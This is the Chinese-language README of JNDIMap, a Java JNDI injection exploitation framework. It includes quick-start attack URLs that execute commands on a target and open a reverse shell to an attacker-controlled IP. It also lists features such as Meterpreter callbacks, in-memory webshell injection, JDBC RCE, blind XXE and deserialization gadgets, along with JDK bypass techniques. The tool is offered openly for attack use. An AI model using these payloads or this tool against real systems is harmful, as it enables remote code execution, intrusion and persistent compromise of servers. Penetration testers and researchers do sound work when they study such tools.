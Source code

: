 <div align="center">
    <img src="img/logo.png" width="128" />
    <h1 align="center">JNDIMap</h1>
</div>

<p align="center">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/X1r0z/JNDIMap">
<img alt="GitHub forks" src="https://img.shields.io/github/forks/X1r0z/JNDIMap">
<img alt="Static Badge" src="https://img.shields.io/badge/Java-8-blue">
<img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/X1r0z/JNDIMap/total">
<img alt="GitHub Release" src="https://img.shields.io/github/v/release/X1r0z/JNDIMap">
<img alt="GitHub License" src="https://img.shields.io/github/license/X1r0z/JNDIMap">

<p align="center">
JNDIMap 是一个强大的 JNDI 注入利用框架, 支持 RMI、LDAP 和 LDAPS 协议, 包含多种高版本 JDK 绕过方式
</p>
<p align="center">简体中文 | <a href="README.en.md">English</a></p>
</p>

## 🚀 快速上手

在 [Release](https://github.com/X1r0z/JNDIMap/releases) 页面下载 JNDIMap, 运行时传入 `-i` 参数指定外部 IP

```bash
java -jar JNDIMap-version.jar -i 10.0.0.1
```

在目标机器上执行命令或反弹 Shell

```bash
rmi://10.0.0.1:1099/Basic/Command/open -a Calculator
ldap://10.0.0.1:1389/Basic/ReverseShell/10.0.0.1/1337
```

## 🚩 功能特性

- DNSLog
- 命令执行
- 反弹 Shell
- Meterpreter 上线
- 加载自定义 Java 字节码
- 内存马注入 (基于 [MemShellParty](https://github.com/ReaJason/MemShellParty))
- 高版本 JDK 绕过
  - BeanFactory 绕过 (Tomcat/Groovy/XStream, etc.)
  - JDBC RCE (MySQL/PostgreSQL/H2/Derby)
  - Tomcat Blind XXE
- LDAP 反序列化 (包含常用 Gadget)
- Nashorn JS 自定义 JNDI Payload
- LDAP trustSerialData 绕过
- JShell Payload 绕过 (可替代 Nashorn JS Engine)
- UTF-8 Overlong Encoding 绕过

## 📖 使用指南

> 完整文档: [USAGE.md](USAGE.md)

- [Usage](USAGE.md#usage)
- [URL 格式](USAGE.md#url-格式)
- [Basic 功能](USAGE.md#basic)
- [内存马注入](USAGE.md#内存马注入)
- [BeanFactory 绕过](USAGE.md#beanfactory-绕过)
  - [Tomcat ELProcessor](USAGE.md#tomcat-elprocessor)
  - [Groovy ClassLoader/Shell](USAGE.md#groovy-classloadershell)
  - [XStream](USAGE.md#xstream)
  - [SnakeYaml](USAGE.md#snakeyaml)
  - [BeanShell](USAGE.md#beanshell)
  - [MVEL](USAGE.md#mvel)
  - [MLet](USAGE.md#mlet)
  - [NativeLibLoader](USAGE.md#nativelibloader)
- [JDBC RCE](USAGE.md#jdbc-rce)
  - [MySQL](USAGE.md#mysql)
    - [MySQL JDBC 反序列化 RCE](USAGE.md#mysql-jdbc-反序列化-rce)
    - [MySQL 客户端任意文件读取](USAGE.md#mysql-客户端任意文件读取)
  - [PostgreSQL](USAGE.md#postgresql)
  - [H2 Database](USAGE.md#h2)
  - [Apache Derby](USAGE.md#derby)
    - [Derby SQL RCE](USAGE.md#derby-sql-rce)
    - [Derby 主从复制反序列化 RCE](USAGE.md#derby-主从复制反序列化-rce)
- [Tomcat Blind XXE](USAGE.md#tomcat-blind-xxe)
- [LDAP Deserialization](USAGE.md#ldap-deserialization)
- [Script](USAGE.md#script)
- [高级技巧](USAGE.md#高级技巧)
  - [Use Reference Only](USAGE.md#use-reference-only)
  - [Confusing Class Name](USAGE.md#confusing-class-name)
  - [JShell Payload](USAGE.md#jshell-payload)
  - [UTF-8 Overlong Encoding](USAGE.md#utf-8-overlong-encoding)

## ⚙️ 编译

[Releases](https://github.com/X1r0z/JNDIMap/releases) 的版本可能存在滞后, 推荐在使用时拉取源码自行编译 (基于 JDK 8)

```bash
git clone https://github.com/X1r0z/JNDIMap && cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## 📷 参考 & 致谢

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)

[https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html](https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html)

[https://exp10it.io/2025/03/h2-rce-in-jre-17/](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

[https://forum.butian.net/share/4414](https://forum.butian.net/share/4414)

[https://yzddmr6.com/posts/swinglazyvalue-in-webshell/](https://yzddmr6.com/posts/swinglazyvalue-in-webshell/)

[https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/)

[https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html](https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html)

[https://github.com/Whoopsunix/utf-8-overlong-encoding](https://github.com/Whoopsunix/utf-8-overlong-encoding)

## 🌟 Star History

<a href="https://www.star-history.com/#X1r0z/JNDIMap&Date">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
   <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
 </picture>
</a>